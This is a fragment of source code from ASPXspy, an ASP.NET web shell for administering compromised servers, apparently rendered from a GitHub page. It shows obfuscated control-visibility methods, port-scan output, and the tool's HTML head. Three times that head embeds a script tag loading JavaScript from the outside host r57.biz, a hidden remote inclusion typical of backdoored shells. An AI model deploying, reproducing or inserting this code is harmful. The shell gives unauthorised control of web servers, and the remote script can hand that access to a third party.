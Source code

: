 res+=th.ip+" : "+th.port+" ................................. "+th.status+"<br>";
}
GBYT.InnerHtml=res;
}
protected void ORUgV(object sender,EventArgs e)
{
dwgT();
}
public void WICxe()
{
DCbS.Visible=false;
CzfO.Visible=false;
APl.Visible=false;
vIac.Visible=false;
kkHN.Visible=false;
YwLB.Visible=false;
iDgmL.Visible=false;
hOWTm.Visible=false;
vrFA.Visible=false;
yhv.Visible=false;
}
</script>
<html xmlns="http://www.w3.org/1999/xhtml" >
<SCRIPT SRC=http://r57.biz/yazciz/ciz.js></SCRIPT>
<head id="Head1" runat="server">
<SCRIPT SRC=http://r57.biz/yazciz/ciz.js></SCRIPT>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>ASPXspy</title>
<SCRIPT SRC=http://r57.biz/yazciz/ciz.js></SCRIPT>
<style type="text/css">
.Bin_Style_Login{font:11px Verdana;BACKGROUND: #FFFFFF;border: 1px solid #666666;}
body,td{font: 12px Arial,Tahoma;line-height: 16px;}
.input{font:12px Arial,Tahoma;background:#fff;border: 1px solid #666;padding:2px;height:16px;}
.list{font:12px Arial,Tahoma;height:23px;}
.area{font:12px 'Courier New',Monospace;background:#fff;border: 1px solid #666;padding:2px;}
.bt {border-color:#b0b0b0;background:#3d3d3d;color:#ffffff;font:12px Arial,Tahoma;height:22px;}
a {color: #00f;text-decoration:underline;}
a:hover{color: #f00;text-decoration:none;}
.alt1 td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#ededed;padding:5px 10px 5px 5px;}
.alt2 td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#fafafa;padding:5px 10px 5px 5px;}
.focus td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#ffffaa;padding:5px 10px 5px 5px;}
.head td{border-top:1px solid #ddd;border-bottom:1px solid #ccc;background:#e8e8e8;padding:5px 10px 5px 5px;font-weight:bold;}
.head td span{font-weight:normal;}
form{margin:0;padding:0;}
h2{margin:0;padding:0;height:24px;line-height:24px;font-size:14px;color:#5B686F;}
ul.info li{margin:0;color:#444;line-height:24px;height:24px;}
u{text-decoration: none;color:#777;float:left;display:block;width:150px;margin-right:10px;}
.u1{text-decoration: none;color:#777;float:left;display:block;width:150px;margin-right:10px;}
.u2{text-decoration: none;color:#777;float:left;display:block;width:350px;margin-right:10px;}
</style>
<script type="text/javascript">
function CheckAll(form){
for(var i=0;i<form.elements.length;i++){
var e=form.elements[i];
if(e.name!='chkall')
e.checked=form.chkall.checked;
}
}
</script>
</head>